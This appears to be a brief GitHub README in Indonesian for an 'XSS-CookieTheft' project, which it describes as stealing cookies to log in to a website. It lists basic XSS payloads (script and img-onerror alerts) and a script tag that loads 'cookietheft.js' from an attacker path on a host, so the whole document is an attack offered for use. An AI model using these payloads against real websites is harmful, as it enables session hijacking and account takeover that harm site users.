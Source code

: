# XSS-CookieTheft
Maling cookie untuk login ke sebuah website. Sesuaikan dengan Database yang kalian miliki.

## XSS Payload
### Basic
```
<img src="x" onerror="alert('XSS')">
<script>alert('XSS')</script>
```

### External JavaScript
`<script src="http://localhost:8089/attacker/cookietheft.js"></script>`
